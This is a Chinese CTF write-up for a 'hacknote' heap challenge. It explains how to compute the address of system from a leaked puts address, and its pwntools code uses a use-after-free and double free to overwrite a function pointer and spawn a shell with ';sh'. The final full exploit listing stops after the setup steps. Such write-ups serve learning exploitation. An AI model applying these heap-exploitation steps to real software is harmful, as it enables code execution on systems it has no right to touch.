 这个还有地方说下，偏移的计算打破了我常规认知

就是比如我泄露的是puts的地址

然后我要的是system

那我就拿泄露的地址减去泄露的那个函数在libc的地址再加上我要的函数在libc中的地址

就可以得到我们要的函数的real_addr.

```python
add(20,'aaaa'*2)
add(20,'bbbb'*2)
dele(0)
dele(1)
payload = p32(0x804862b)+p32(puts_got)
add(8,payload)
#gdb.attach(r)

show(0)
leak = u32(r.recv(4))
log.success('leak:'+hex(leak))
sys=leak-libc.sym['puts']+libc.sym['system']
```

getshell

这里dele1是为了让0x11的空间再次进入bin为了我们写入system做准备

这里实际上用到了double free没有报错是因为我们上面已经将其指针修改为了某个存在的函数（上面我们改的是puts的got）

而不是他原来的chunk的内容的地址所以是有效的指针不会报错啦。

```python
dele(1)
#gdb.attach(r)

payload = p32(sys) + ';sh\0'
add(8,payload)
show(0)
r.interactive()
```

exp:

```python
from pwn import *
r=process('./hacknote1')
elf=ELF('./hacknote1')
libc=ELF('./libc-2.23-32.so')
context.log_level='debug'
r=remote('node4.buuoj.cn','26104')
puts_got=0x804A024
def add(size,content):
	r.sendlineafter('Your choice :',str(1))
	r.sendlineafter('Note size :',str(size))
	r.sendlineafter('Content :',str(content))

def dele(idx):
	r.sendlineafter('Your choice :',str(2))
	r.sendlineafter('Index :',str(idx))

def show(idx):
	r.sendlineafter('Your choice :',str(3))
	r.sendlineafter('Index :',str(idx))

add(20,'aaaa'*2)
add(20,'bbbb'*2)
dele(0)
dele(1)
```
